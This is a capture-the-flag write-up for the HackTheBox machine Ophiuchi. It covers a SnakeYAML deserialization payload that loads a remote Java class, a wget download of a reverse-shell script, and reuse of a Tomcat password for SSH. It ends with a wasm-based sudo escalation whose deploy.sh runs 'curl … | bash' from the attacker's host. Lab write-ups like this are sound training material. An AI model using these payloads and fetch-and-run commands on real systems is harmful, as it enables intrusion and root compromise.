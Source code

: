 ```yaml
---
title: Ophiuchi Writeup [HTB]
tags: [HackTheBox, Java deserealization, Web assembly]
image: /assets/images/ophiuchi/ophiuchi.png
published: true
banner: true
---
```


Ophiuchi is a Linux based machined that was active since February 13th of 2021 to July 3rd, on this machine we will exploit a Java deserialization problem on snakeyaml to get command execution and access to the machine, then will find some credentials on configuration files of tomcat, finally we will have to compile some rust code to web assembly to be able to execute a go script that will allow us to run any bash script as root finishing with the machine.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.227
nmap -sC -sV -p 8080,22, -Pn -o scan.txt 10.10.10.227

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only two ports open, ssh and a webpage hosted on Apache Tomcat, let' check it.

![](/assets/images/ophiuchi/webpage.png)

There we see an online YAML parser, the site is running on Tomcat, hence, Java, and as we know Java is the king of deserialization problems, so after searching for a while for issues on deserializing YAML we get to this [blog](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

# [](#header-1)Gaining Access

On that blog is explained the vulnerability and how to exploit it, so first we copy the Java code, fix the issues than come when copying something from medium, and let's change the payload, notice that "Runtime.getRuntime().exec" only works with absolute path commands, so first we will upload a file with a reverse shell, and then exploit the vulnerability again to execute that file, so our first payload will be `/usr/bin/wget 10.10.14.205:8000/shell.sh -O /tmp/justatest.sh`, if you don't want to have problems with Java you have to name the file "exploit.java", if you want to use another name you have to change the names of the classes inside the file, I did so and call it subte.java, then I ran `javac subte.java`, and got subte.class, then following the blog we have to create some directories and a file, getting:

![](/assets/images/ophiuchi/tree.png)

javax.script.ScriptEngineFactory, contains "subte.subte" which are the directory and the name of the class file separated by a period, finally we start a http server, don't forget to put shell.sh on it, and try to parsee the next stuff:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.205:8000/"]
  ]]
]
```

But, even though we get the requests to our server, we get an error page, and our shell isn't uploaded.

![](/assets/images/ophiuchi/httpserv.png)

Reviewing the error page we find the cause.

![](/assets/images/ophiuchi/error.png)

As I said before, names are important in Java if we don't want to have problems, subte/subte is the location of the file, but not the name of the file, that is just subte, the location of the file is defined on "javax.script.ScriptEngineFactory", so let's change it to just "subte", and move the .class file to the root of the http server, now when we send the request again our shell gets uploaded, finaly we change the payload for `/bin/bash /tmp/justatest.sh`, generate the class file, replace the one that we used, send again the request and we have a shell inside the machine.

![](/assets/images/ophiuchi/shell1.png)

# [](#header-1)Lateral Movement

Now that we are inside we look for tomcat's configuration files, the only location we find tomcat is on /opt/tomcat, so we access there and search for any password.

![](/assets/images/ophiuchi/tomcat.png)

We find the password of admin, whythereisalimit, there is also a user called admin on the machine, and he uses the same password, now we can get through SSH, and retrieve user.txt.

![](/assets/images/ophiuchi/shell2.png)

# [](#header-1)Privilege Escalation

Now that we have access to another user let's see if we can run anything with sudo.

![](/assets/images/ophiuchi/sudo.png)

We see that we can run /opt/wasm-functions/index.go with sudo, so let's check it and see if we can figure out what it does.

```go
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)


func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

I don't know go, so I can only guess what is happening, first ir reads a file called main.wasm, then after doing some stuff it export info (probably info is a function inside main.wasm), then it gets a result from it, and if the result is "1", it executes deploy.sh, searching there are only two files called "main.wasm", one located at "/opt/wasm-functions/" and another on "/opt/wasm-functions/backup", so let's go to those directories and try to execute the script.
We get the same output from both, "Not ready to deploy", so the function isn't returning 1, and the file is a binary file quite big (1.5 MB), so we can't just try to edit the hex of the binary to get what we want. On the imports of the script there is a github link, github.com/wasmerio/wasmer-go/wasmer, so let's go there and try to understand what is going on with the script.
There we learn that .wasm files are files compiled to web assembly, and on this case those are writte in rust, [here](https://depth-first.com/articles/2020/06/29/compiling-rust-to-webassembly-a-simple-example/) is a simple guide to compile some rust code to web assembly, the code that we need is the next one:

```rust
#[no_mangle]
pub fn info() -> i32 {
    1
}
```

As we saw the go script converts the output to a string, so nothing would happen if we return an int value. Now that we have main.wasm we just need deploy.sh, I go with my usual curl command that retrieves a reverse shell and pipes it to bash, `curl 10.10.14.205:8000/shell.sh | bash`, with those files in the same directory we can execute the script and we will get a shell as root.

![](/assets/images/ophiuchi/execute.png)

![](/assets/images/ophiuchi/root.png)